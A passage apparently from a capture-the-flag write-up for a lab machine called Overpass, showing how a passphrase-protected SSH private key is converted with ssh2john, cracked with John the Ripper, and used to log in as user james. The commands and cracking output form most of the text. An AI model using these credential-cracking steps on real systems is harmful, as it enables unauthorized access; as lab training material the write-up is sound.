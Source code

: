 - But the ssh key is passphrase protected.
- We'll use `ssh2john`, so that we can bruteforce the passpharse.

```bash
$ python3 /usr/share/john/ssh2john.py
Usage: /usr/share/john/ssh2john.py <RSA/DSA/EC/OpenSSH private key file(s)>

$ python3 /usr/share/john/ssh2john.py id_rsa > forjohn.txt
$ john forjohn.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
james13          (id_rsa)
1g 0:00:00:02  3/3 0.3412g/s 597732p/s 597732c/s 597732C/s bhawed
Session aborted
```

- The passpharse is `james13`.
- Now, we'll use `ssh` to login into the machine:

```bash
$ ssh -i id_rsa james@10.10.123.199
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed May 19 19:24:16 UTC 2021

  System load:  0.08               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.123.199
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james

james@overpass-prod:~$ id
uid=1001(james) gid=1001(james) groups=1001(james)
```
